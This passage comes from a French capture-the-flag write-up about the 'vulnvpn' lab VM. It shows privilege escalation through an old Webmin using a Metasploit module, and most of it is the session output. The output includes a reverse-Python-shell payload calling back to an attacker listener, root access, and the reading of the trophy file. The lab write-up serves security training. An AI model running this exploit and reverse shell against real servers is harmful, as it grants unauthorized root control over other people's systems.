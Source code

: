 Escalade de privilèges #2
-------------------------

Si la précédente méthode ne fonctionne pas (exemple : problème avec le FS sur la VM), on peut s'attaquer au vieux *Webmin* via un module *Metasploit* :  

```plain
msf exploit(webmin_show_cgi_exec) > show options

Module options (exploit/unix/webapp/webmin_show_cgi_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD  bob              yes       Webmin Password
   Proxies                    no        Use a proxy chain
   RHOST     10.99.99.1       yes       The target address
   RPORT     10000            yes       The target port
   SSL       true             yes       Use SSL
   USERNAME  bob              yes       Webmin Username
   VHOST                      no        HTTP server virtual host

Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.99.99.2       yes       The listen address
   LPORT  4444             yes       The listen port
   SHELL  /bin/bash        yes       The system shell to use.

Exploit target:

   Id  Name
   --  ----
   0   Webim 1.580

msf exploit(webmin_show_cgi_exec) > exploit

[*] Started reverse handler on 10.99.99.2:4444 
[*] 10.99.99.1:10000 - Attempting to login...
[+] 10.99.99.1:10000 - Authentication successfully
[+] 10.99.99.1:10000 - Authentication successfully
[*] 10.99.99.1:10000 - Attempting to execute the payload...
[+] 10.99.99.1:10000 - Payload executed successfully
[*] Command shell session 1 opened (10.99.99.2:4444 -> 10.99.99.1:37505) at 2014-09-27 09:29:38 +0200

bash: no job control in this shell
root@vulnvpn:/usr/share/webmin/file/# id     
id
uid=0(root) gid=0(root) groups=0(root)
root@vulnvpn:/usr/share/webmin/file/# cd /root
cd /root
root@vulnvpn:~# ls
ls
trophy.txt
root@vulnvpn:~# cat trophy.txt    
cat trophy.txt
6dbabffbbabf0868f3bdcf3b192a3511
```

C'est plus bourrin mais plus besoin d'attendre 6h25 :)

*Published September 28 2014 at 14:51*